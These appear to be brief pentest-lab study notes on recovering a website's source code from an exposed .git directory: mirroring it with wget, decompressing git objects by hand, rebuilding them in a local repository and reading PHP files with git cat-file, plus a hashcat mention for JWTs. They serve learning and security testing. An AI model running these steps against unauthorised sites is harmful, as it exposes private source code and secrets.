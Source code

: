 ## PTL Blue Random Notes

#### Git Information Leak

- wget -r http://<RHOST>/.git/
- git diff

#### JWT

- hashcat

## Git Information Leak II

- .git/config
- .git/HEAD
- .git/HEAD => refs/heads/master => .git/refs/heads/master
- 4eb80f585fec91b4d06aeb119230c9870dc494e1
- .git/objects/4e/b80f585fec91b4d06aeb119230c9870dc494e1
- file b80f585fec91b4d06aeb119230c9870dc494e1 => zlib compressed data
- printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - b80f585fec91b4d06aeb119230c9870dc494e1 |gzip  -cd -q
- - .git/objects/58/ace0476093d04023f84d7816adacfa7b879c43
- printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - ace0476093d04023f84d7816adacfa7b879c43 |gzip  -cd -q | strings -a
- mkdir /tmp/hack
- cd /tmp/hack
- git init 
- mkdir -p .git/objects/58 .git/objects/4e
- cp /tmp/ace0476093d04023f84d7816adacfa7b879c43 /tmp/hack/.git/objects/58/
- cp /tmp/b80f585fec91b4d06aeb119230c9870dc494e1 /tmp/hack/.git/objects/4e/
- git cat-file -p 58ace0476093d04023f84d7816adacfa7b879c43
- => 100644 blob 5adab1a1c52dc009d4f26bbce30dacc4c93eea33	footer.php
- => 100644 blob c3646db7f9c7e6f126c75900fdcce16d50e1da82	header.php
- => 100644 blob 88beb94b5e1fc48e1625c89f892b04bffb58225c	index.php
- .git/objects/5a/dab1a1c52dc009d4f26bbce30dacc4c93eea33 footer.php
- git cat-file -p 5adab1a1c52dc009d4f26bbce30dacc4c93eea33
- .git/objects/c3/646db7f9c7e6f126c75900fdcce16d50e1da82 header.php
- git cat-file -p c3646db7f9c7e6f126c75900fdcce16d50e1da82
- Some tools like Git-Money, DVCS-Pillage and GitTools automate the retrieval of the remote content.
